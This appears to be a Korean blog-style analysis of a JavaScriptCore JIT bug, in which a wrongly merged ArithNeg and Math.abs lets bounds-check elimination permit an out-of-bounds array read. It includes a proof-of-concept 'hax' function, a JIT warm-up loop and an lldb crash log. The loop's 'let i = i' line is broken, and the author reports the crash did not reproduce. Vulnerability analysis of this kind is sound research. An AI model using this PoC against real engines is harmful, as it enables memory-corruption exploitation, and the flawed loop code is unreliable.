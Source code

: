 이 버그로 인해 CSE는 다음과 같이 잘못된 변환을 수행하게 됩니다.
```ini
v = ArithNeg(checked) n
i = v
```

위의 최적화가 수행된 이후 부터는 n에 INT_MIN을 전달하여 잘못 컴파일된 함수를 호출하면, i는 양수가 되어야 하지만, INT_MIN이 저장되게 됩니다.

위의 버그 자체는 정확성 문제이지, 보안 문제는 아닙니다.

그러나 이 버그를 보안 취약점으로 악용할 수 있는 방법은 JIT 최적화 기법 중 하나인 **경계 검사 제거(bounds-check elimination)**을 악용하는 것입니다.

IntegerRangeOptimization Path로 돌아가 보면, i의 값은 이미 양수로 마킹되어 있습니다.

그러나 경계 검사 제거가 발생하려면, i가 배열의 길이보다 작은 값임이 보장되어야 합니다.

이를 다음 코드를 통해 충족시킬 수 있습니다.
```js
function hax(arr, n) {
    n = n | 0;
    if (n < 0) {
        let v = (-n) | 0;
        let i = Math.abs(n);
        if (i < arr.length) {
            arr[i];
        }
    }
}
```

위의 코드를 통해 버그가 트리거 되면, i는 INT_MIN이 되고, 배열 경계 검사를 통과한 후 배열에 접근하게 됩니다.

그러나 IntegerRangeOptimization은 i가 항상 배열 경계 내에 있다고 잘못 판단했기 때문에, 경계 검사가 제거된 상태에서 실행되게 됩니다.

버그를 트리거하기 위해선 JS 코드가 JIT 컴파일 되기 전에 충분히 실행되어야 합니다. 이는 단순히 반복적으로 실행해주면 됩니다.

하지만 arr에 대한 인덱스 접근이 **SSALoweringPhase**에서 CheckInBounds와 경계 검사가 없는 GetByVal로 변환되려면, JIT가 해당 접근이 항상 경계 내라고 추론해야 합니다.

이 말은 즉, 기본 JIT 실행 중 Out-of-Bounds 접근이 자주 감지되게 되면, JIT는 위의 최적화 과정을 수행하지 않습니다.

따라서 학습 과정에서 정상적인 인덱스만을 사용하여야 합니다.
```js
for (let i = i; i <= ITERATIONS; i++) {
    let n = -4;
    if (i == ITERATIONS) {
        n = -2147483648;
    }

    hax(arr, n);
}
```

위의 코드를 실행시키면 다음과 같이 크래쉬가 납니다.

```shell
lldb -- /System/Library/Frameworks/JavaScriptCore.framework/Resources/jsc poc.js
   (lldb) r
   Process 12237 stopped
   * thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x1c1fc61348)
       frame #0: 0x000051fcfaa06f2e
   ->  0x51fcfaa06f2e: movsd  xmm0, qword ptr [rax + 8*rcx] ; xmm0 = mem[0],zero
   Target 0: (jsc) stopped.
   (lldb) reg read rcx
        rcx = 0x0000000080000000
```
(주어진 파일 환경에서는 어떤 이유에서 인지,, Reproduce가 되지 않았습니다.. ㅠㅜ)
